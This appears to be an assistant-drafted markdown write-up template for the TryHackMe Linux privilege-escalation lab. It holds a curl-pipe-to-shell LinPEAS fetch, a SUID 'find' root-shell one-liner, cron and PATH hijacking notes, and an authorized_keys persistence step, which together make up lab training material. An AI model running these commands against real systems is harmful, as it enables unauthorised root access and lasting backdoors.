

- **Room link**: [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)
- **Objective**: Practice Linux Privilege Escalation on a misconfigured Debian VM.
- **Credentials**: `user:password321`
- **Tasks**: Deploy the VM, enumerate, and escalate privileges using various techniques.

### **Write-Up Structure (Markdown)**
Here’s a **pro-level write-up** structure for your GitHub repo:

# Linux Privilege Escalation (Linux PrivEsc) - TryHackMe
**Room Link**: [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)
**Difficulty**: Medium
**Author**: Sagi Shahar / Tib3rius
**Credentials**: `user:password321`

---

## **Table of Contents**
1. [Introduction](#introduction)
2. [Initial Access](#initial-access)
3. [Enumeration](#enumeration)
4. [Privilege Escalation Techniques](#privilege-escalation-techniques)
   - [Kernel Exploits](#kernel-exploits)
   - [SUID Binaries](#suid-binaries)
   - [Cron Jobs](#cron-jobs)
   - [Path Hijacking](#path-hijacking)
   - [Capabilities](#capabilities)
5. [Post-Exploitation](#post-exploitation)
6. [Lessons Learned](#lessons-learned)
7. [References](#references)

---

## **Introduction**
- **Objective**: Escalate privileges from a low-privileged user to root on a Debian VM.
- **Skills Practiced**: Linux enumeration, privilege escalation, exploit research.

---

## **Initial Access**
- **SSH Connection**:
  ```bash
  ssh user@<TARGET_IP> -p 22
  Password: password321
- **First Steps**:
  - Check user privileges: `id`, `whoami`
  - Enumerate system: `uname -a`, `cat /etc/os-release`

---

## **Enumeration**
### **Manual Enumeration**
- **System Info**:
  ```bash
  uname -a
  cat /proc/version
  lsb_release -a
  ```
- **User Info**:
  ```bash
  id
  sudo -l
  cat /etc/passwd
  ```
- **Networking**:
  ```bash
  ifconfig
  netstat -tulnp
  ```
- **Processes**:
  ```bash
  ps aux
  top
  ```
- **Cron Jobs**:
  ```bash
  crontab -l
  ls -la /etc/cron*
  ```
- **SUID Binaries**:
  ```bash
  find / -perm -4000 -type f 2>/dev/null
  ```

### **Automated Tools**
- **LinPEAS**:
  ```bash
  curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
  ```

---

## **Privilege Escalation Techniques**
### **1. Kernel Exploits**
- **Check Kernel Version**:
  ```bash
  uname -r
  ```
- **Search for Exploits**:
  ```bash
  searchsploit "Linux Kernel 4.4.0"
  ```
- **Example Exploit**: DirtyCow (CVE-2016-5195)

### **2. SUID Binaries**
- **Find SUID Binaries**:
  ```bash
  find / -perm -4000 -type f 2>/dev/null
  ```
- **Exploit Example**: `/usr/bin/find` with `find / -exec /bin/sh -p \;`

### **3. Cron Jobs**
- **Check Cron Jobs**:
  ```bash
  crontab -l
  ls -la /etc/cron*
  ```
- **Exploit Example**: Modify a writable script in `/etc/cron.d/`

### **4. Path Hijacking**
- **Check `$PATH`**:
  ```bash
  echo $PATH
  ```
- **Exploit Example**: Create a malicious binary in a writable directory.

### **5. Capabilities**
- **Check Capabilities**:
  ```bash
  getcap -r / 2>/dev/null
  ```
- **Exploit Example**: `python` with `cap_setuid` set.

---

## **Post-Exploitation**
- **Maintain Access**:
  ```bash
  ssh-keygen -t rsa
  echo "ssh-rsa AAAAB3NzaC1yc2E..." >> ~/.ssh/authorized_keys
  ```
- **Clean Up**:
  ```bash
  rm /tmp/malicious_script.sh
  ```

---

## **Lessons Learned**
- **Key Takeaways**:
  - Always enumerate thoroughly.
  - Check for misconfigurations (SUID, cron, capabilities).
  - Research kernel exploits for outdated systems.

---

## **References**
- [GTFOBins](https://gtfobins.github.io/)
- [LinPEAS](https://github.com/carlospolop/PEASS-ng)
- [DirtyCow Exploit](https://dirtycow.ninja/)

---

## **Screenshots**


---
```

### **Next Steps**
1. **Upload to GitHub**: Save as `Linux_PrivEsc_Writeup.md`.
2. **Daily Review**: Revisit and refine before starting new rooms.
3. **Add Screenshots**: Replace `img2` with actual screenshots.
